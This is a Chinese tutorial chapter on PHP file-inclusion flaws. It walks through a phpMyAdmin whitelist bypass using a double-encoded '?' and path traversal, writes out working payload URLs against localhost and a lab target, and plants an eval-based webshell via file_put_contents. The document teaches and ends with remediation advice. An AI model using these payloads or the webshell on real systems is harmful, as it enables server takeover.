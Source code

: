# Chapter 9.1 本地包含与远程包含

## 0x00 漏洞简介

> 文件包含漏洞属于攻击者利用包含的特性，加上应用本身对文件包含控制不严格，最终造成攻击者进行任意文件包含。被包含的文件会被作为脚本文件执行。

文件包含本身不属于漏洞，但是由于对包含的文件控制不当，导致了文件包含漏洞的产生。

文件包含分为本地包含（LFI）和远程包含（RFI），即文件读取的地址在本地或远程。远程包含需要参数`allow_url_include = ON`

### 解析函数

`include()`：使用include()引用外部文件时，只有代码执行到include()代码段时调用的外部文件才会被引用并读取，当引用的文件发生错误时，系统会给出警告错误后继续执行。

`require()`：在脚本文件执行前解析器会将引用的文件全部读取后与源文件中本语句替换，组合成为新的临时PHP文件并执行。

`include_once()`和`require_once()`：与include()和require()基础功能相同，执行前会先验证同一页面中是否被其他位置引用过，如果有则不会重复引用。对于require_once()而言如果一个页面用用了两个不同文件，则只有第一个文件会被执行。

## 0x01 漏洞复现

1. **下载PHPMyadmin源码进行审计，全局搜索文件包含函数**

	![](https://nc0.cdn.zkaq.cn/md/5371/cdeee58118c41ed80fcfda35ccb23c6e_24229.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/469c05cbccb1074f654cc64609c6e5dc_44449.png)
2. **追踪到一个request传参的包含，对其中的条件及正则进行验证**

   > 1. target传参非空
   > 2. target传参不为index目录
   > 3. target传参不在名单里
   > 4. 通过Core.php中checkPageValidity()函数验证

	![](https://nc0.cdn.zkaq.cn/md/5371/897608641a6b0565e11e704d476095dd_33420.png)

3. **追踪Core.php中checkPageValidity()验证**

   > 1. IF1:如果不存在缓存白名单则从固定白名单中获取
   > 2. IF2:如果变量page未设置或变量page不为字符串则返回false
   > 3. IF3:如果变量page在白名单里则返回true
   > 4. 新建临时变量_page，赋值为截取page变量中从0至'?'第一次出现的位置的字符串
   > 5. IF4:如果临时变量_page在白名单中则返回true
   > 6. _page赋值为url编码后的page
   > 7. _page赋值为截取page变量中从0至'?'第一次出现的位置的字符串
   > 8. IF5:如果临时变量_page在白名单中则返回true
   >
   > 综上所述，只能通过第7、8点截取page传参时加入payload才有机会注入
![](https://nc0.cdn.zkaq.cn/md/5371/983c86abe2112a057edda6d641465479_21005.png)

4. **从phpMyAdmin中可以看到数据库的结构，其中表数据库的test中的表名和`C:\phpStudy\PHPTutorial\MySQL\data\test`中的frm文件相同，所以可以尝试跳转**

	![](https://nc0.cdn.zkaq.cn/md/5371/931e18fdfb0f613501daee91afa63e97_52729.png)
5. **新建一张表，添加列名为一句话木马，观察到bin打开后仍然可见木马，可以尝试使用文件执行漏洞**

	![](https://nc0.cdn.zkaq.cn/md/5371/f7f0f11e0e654c8ff49d1e0e5f7c9db1_24032.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/036171bd83e91695f6c86a7b75a72ba0_74100.png)
6. **构建payload，在index.php使用target传参，访问白名单内的任意文件，并使用第二个`?`对第三步第7点的临时变量_page截取后传参（默认截取第二个问号后的内容）。但是由于URL不能直接传参"?"并且在第三步第6点可知后端会对传参进行第二次URL编码，所以我们将"?"进行两次编码：`? -> %3f -> %253f`。此后加上相对路径访问构造的shell.frm，读取到phpinfo**

   ```url
   http://localhost/phpMyAdmin/?target=sql.php%253f/../../../MySQL/data/test/shell.frm&$2=phpinfo();
   ```

	![](https://nc0.cdn.zkaq.cn/md/5371/fb7ad28e8beaeca558c356ea9cccb371_38481.png)
7. **在靶场重复步骤：新建表shell及一句话木马字段，构建payload访问**

   ```url
   http://59.63.200.79:8010/lfi/phpmyadmin/?target=sql.php%253f/../../../../mysql/data/a/shell.frm&&2=phpinfo();
   ```

	![](https://nc0.cdn.zkaq.cn/md/5371/05f1426ecf8d7aa280f5df77560b9555_40812.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/ceef47470deac5e55c1c532595617a89_88252.png)

8. **虽然已经向数据库写入了一句话木马，但是并不能直接连接菜刀，因为访问这个cms是需要用户权限的，所以我们在传参点使用file_put_contents()函数新建一个不需要权限就能访问的php文件**

	```php
	file_put_contents('she11.php','<?php eval($_REQUEST[2])?>');
	```

	![](https://nc0.cdn.zkaq.cn/md/5371/55f9268d0317e99a188e9588e66d3f42_35268.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/c1074c01d4911a37573e36cef9a357da_61894.png)
9. 连接菜刀，拿到flag

	![](https://nc0.cdn.zkaq.cn/md/5371/aa1908d1193aeafba96168d152b24f3d_61121.png)
## 0x02 修复方法

1. 在没有特别需要的情况下设置`allow_url_include`和`allow_url_fopen`为`off`，防止远程包含
2. 对可以包含的文件进行限制，可以使用白名单的方式，或者设置可以包含的目录，如open_basedir
3. 假定所有输入都是可疑的，尝试对所有输入提交可能可能包含的文件地址，包括服务器本地文件及远程文件，进行严格的检查，参数中不允许出现`../`之类的目录跳转符。
4. 严格检查include类的文件包含函数中的参数是否外界可控

